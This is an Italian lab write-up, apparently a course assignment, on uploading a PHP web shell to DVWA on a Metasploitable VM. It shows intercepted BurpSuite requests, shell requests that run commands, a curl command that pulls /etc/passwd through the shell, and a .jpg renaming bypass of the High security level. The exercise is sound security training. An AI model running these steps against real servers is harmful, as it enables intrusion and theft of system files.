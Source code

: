 
# 📝 Consegna S6/L1
# Exploit File Upload | Programmazione Shell PHP per Controllo Remoto su Metasploitable 

---

**🎯 Obiettivo**: Creare e utilizzare una shell PHP per ottenere il controllo remoto completo della macchina Metasploitable, intercettare poi le richieste mediante BurpSuite, familiarizzare con gli ambienti e i tool.

---

## **📂 Passaggi eseguiti**

### **1️⃣ Configurazione dell'ambiente**
1. **🌐 Connessione tra Kali e Metasploitable**:
   - Le macchine sono configurate per comunicare tra loro.
   - Test di connettività eseguito con:
     ```bash
     ping 192.168.60.2
     ```
   - 🔄 Risultato: connettività confermata.

2. **🔒 Accesso alla DVWA su Metasploitable**:
   - L'applicazione web vulnerabile è stata raggiunta tramite:
     ```
     http://192.168.60.2/dvwa
     ```
   - Il livello di sicurezza è stato impostato inizialmente su **Low** per consentire l'upload della shell.
3. **🖋️ Creazione della shell `shell.php`**:
   - La shell PHP include funzionalità avanzate:
     - Esecuzione comandi remoti.
     - Navigazione persistente nel file system.
     - Interfaccia interattiva con output dinamico tramite AJAX.

---

### **2️⃣ Caricamento della Shell**
 **📤 Upload della shell su DVWA**:
   - File caricato tramite la sezione **File Upload**.
![Upload section](./UploadDVWA.png)

 **🔑 Accesso protetto alla shell**:
   - La chiave `mysecretkey` è obbligatoria per accedere alla shell. Questo garantisce che solo chi conosce la chiave possa utilizzarla.
   - Test di caricamento riuscito con accesso al file tramite browser:
     ```
     http://192.168.60.2/dvwa/hackable/uploads/shell.php?key=mysecretkey
     ```

---

### **3️⃣ Intercettazione fase Upload con BurpSuite**

1. **🛠️ Configurazione**:
   - Configurato BurpSuite per intercettare il traffico HTTP durante l'upload della shell `shell.php`.

2. **🔎 Intercettazione delle richieste HTTP**:
   - Durante il caricamento della shell tramite la sezione **File Upload** di DVWA, BurpSuite ha intercettato la seguente richiesta POST:
     ```
     POST /dvwa/vulnerabilities/upload/ HTTP/1.1
     Host: 192.168.60.2
     Content-Length: 3976
     Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIYDDPameSV45LPyo
     ...
     ------WebKitFormBoundaryIYDDPameSV45LPyo
     Content-Disposition: form-data; name="uploaded"; filename="shell.php"
     Content-Type: application/x-php
     ...
     ```

   - Dall'intercettazione, è evidente che il file caricato è uno script PHP malevolo, ovvero una shell remota progettata per ottenere il controllo della macchina target. Questo dimostra come un'implementazione scorretta della gestione dei file caricati possa esporre il sistema a gravi rischi di compromissione.

   - La shell, una volta caricata, è stata localizzata nella directory specificata:  
     ```
     http://192.168.60.2/dvwa/hackable/uploads/shell.php?key=mysecretkey
     ```

3. **🔍 Analisi**:
   - La richiesta includeva il payload PHP della shell, che è stato elaborato dal server, consentendo così l'accesso remoto.
   - La chiave segreta `mysecretkey` ha fornito un ulteriore livello di autenticazione, assicurando che solo gli utenti autorizzati potessero interagire con la shell.

4. **📸 Screenshot Intercettazione**:
   ![Intercettazione Upload](./Upload.png)

---

### **4️⃣ Utilizzo della Shell**
1. **⚡ Esecuzione comandi remoti**:
   - Eseguiti comandi come:
     - `ls` - Per elencare file e directory.
     - `whoami` - Per identificare l'utente corrente.

2. **🗂️ Navigazione del file system**:
   - Comandi `cd` per cambiare directory:
     - Esempio: `cd /var/www/html`
   - 🔄 Navigazione persistente grazie alla gestione delle sessioni.

3. **🛠️ Interazione con strumenti**:
   - Eseguito `nano` per modificare file in modalità interattiva:
     - Esempio: `nano test.txt`
   - La shell fornisce una vera esperienza terminale.

4. **📁 Caricamento e download file**:
   - Caricato un file su Metasploitable:
     ```bash
     curl -F "file=@example.txt" "http://192.168.60.2/dvwa/hackable/uploads/shell.php?key=mysecretkey"
     ```
   - Scaricato un file dalla macchina:
     ```bash
     curl "http://192.168.60.2/dvwa/hackable/uploads/shell.php?key=mysecretkey&action=download&file=/etc/passwd" -o passwd.txt
     ```
![Shell in azione](./ShellPreview.png)

## **🔧 Come la Shell Fornisce Controllo Completo**
1. **Esecuzione Comandi**:
   - Ogni comando viene inviato tramite HTTP POST e processato direttamente dalla macchina Metasploitable usando `shell_exec`. L'output viene restituito come risposta HTTP, visibile nel terminale integrato.

2. **Persistenza delle directory**:
   - La shell utilizza variabili di sessione per mantenere lo stato della directory corrente, replicando un'esperienza simile al terminale.

3. **Interfaccia Interattiva**:
   - Utilizzando AJAX, l'interfaccia aggiorna dinamicamente il terminale senza necessità di ricaricare la pagina.

4. **Interazione con strumenti avanzati**:
   - La shell supporta strumenti terminali (`nano`, `vi`, `tree`, ecc.), fornendo un accesso completo e interattivo.

---

### **4️⃣ Intercettazioni comandi Shell con BurpSuite**
1. **🛠️ Configurazione**:
   - Configurato BurpSuite per intercettare il traffico HTTP.

2. **🔎 Intercettazione delle richieste HTTP**:
   - Esempio di richiesta intercettata:
     ```
     GET /dvwa/hackable/uploads/shell.php?key=mysecretkey&action=ls
     ```
   - Catturato il comando POST per eseguire `whoami`:
     ```
     POST /dvwa/hackable/uploads/shell.php?key=mysecretkey
     Body: cmd=whoami
     ```
![Intercettazione BurpSuite](./POST.png)

---

## **5️⃣ Bypass della Sicurezza High su DVWA**

1. **🔧 Configurazione della Sicurezza High**:
   - La sicurezza della DVWA è stata in seguito configurata su **High**, implementando restrizioni "più rigide" per il caricamento dei file.

2. **🔎 Metodo di Elusione**:
   - Nonostante la configurazione avanzata, è stato possibile caricare la shell `shell.php` rinominata in `.jpg`. Questo ha eluso il sistema di controllo che permette l'upload di file `.jpg` solo se:
     - Il file è lungo almeno **100000 byte**.
   - La shell è stata scritta in modo tale da rispettare la lunghezza minima richiesta, aggirando efficacemente le restrizioni.

3. **📤 Dettagli Tecnici**:
   - Il file è stato caricato tramite la sezione **File Upload**, ed è stato possibile eseguirlo come script PHP nonostante l'estensione `.jpg`.

4. **📸 Screenshot dell'Intercettazione**:
![Intercettazione BurpSuite](./BurpSuite.png)

---

# **📌 Conclusione**
La shell PHP caricata consente un controllo remoto completo della macchina Metasploitable. L'esperimento dimostra come vulnerabilità come l'upload di file non protetti possano esporre una macchina a rischi significativi. Attraverso questa shell è stato possibile eseguire comandi, navigare nel file system e interagire con strumenti di sistema senza restrizioni. Ma ci mostra inoltre che con BurpSuite è stato possibile intercettare questa azione di upload, per identificarla e prevenirla.








